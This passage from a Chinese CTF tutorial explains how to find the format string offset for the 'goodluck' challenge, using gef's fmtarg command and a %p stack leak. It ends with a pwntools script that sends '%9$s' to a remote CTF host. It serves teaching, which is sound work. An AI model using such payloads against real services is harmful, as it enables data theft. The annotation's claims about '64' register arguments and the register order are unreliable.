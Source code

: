 ```shell
gef➤  fmtarg 0x00007fffffffdb28
The index of format argument : 10
```

需要注意的是我们必须 break 在 printf 处。

> 来自 resery 师傅注解：
>
> 这里的 10 是由 5+5 得到的，至于为什么是这两个 5 是从哪里的得到的，我来解释一下，前面的 5：由于 64 为程序，前 64 个参数是存在寄存器中的，分别是 rdi，rsi，rcx，rdx，r8，r9，所以第一个格式化字符串是存储在 rdi 中的，所以 flag 对应的偏移就应该是 5+flag 在栈中的偏移，在栈中的偏移就很好理解了就是 5，所以 flag 对应的格式化字符串偏移为 10

**注解**

1. 我安装的 Pwndbg 并没有 fmtarg  ，可能是版本不对，如果需要安装一下 gef 插件。

2. 两个作者都解释了偏移 10 是怎么计算来，但我更喜欢的方法是**输入一长串 %p 得出输入字符串的偏移是多少，然后再计算目标偏移或地址**。

   ```shell
   $ ./goodluck 
   what's the flag
   bbbbbbbb%p%p%p%p%p%p%p%p%p%p%p
   You answered:
   bbbbbbbb0x6020100x7ffff7dd37800x7ffff7b042c00x7ffff7fdc7000x7ffff7fdc7010x620000010x6028300x6020100x7fffffffdd300x6161617b67616c660x6161616161616161
   But that was totally wrong lol get rekt
   ```

   0x602830 是第 7 位。为什么泄露的不是 0x6262626262626262 ？前面提到了，64 位系统的前六个参数是寄存器传参的，而 bbbbbbbb 是第一个参数自然在寄存器中存放，0x602830 就是存储的寄存器地址。怎么获得这个地址？gdb 调试断点打在 printf 函数：

   ![fmrstr_0](_images/格式化字符串漏洞基础例子/fmrstr_0.png)

   这样得出最后的 flag 偏移为 10 。

#### 利用程序 

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
# 这个库没有用到可以注释掉
# from LibcSearcher import *
goodluck = ELF('./goodluck')
if args['REMOTE']:
    sh = remote('pwn.sniperoj.cn', 30017)
else:
    sh = process('./goodluck')
payload = "%9$s"
print payload
##gdb.attach(sh)
sh.sendline(payload)
```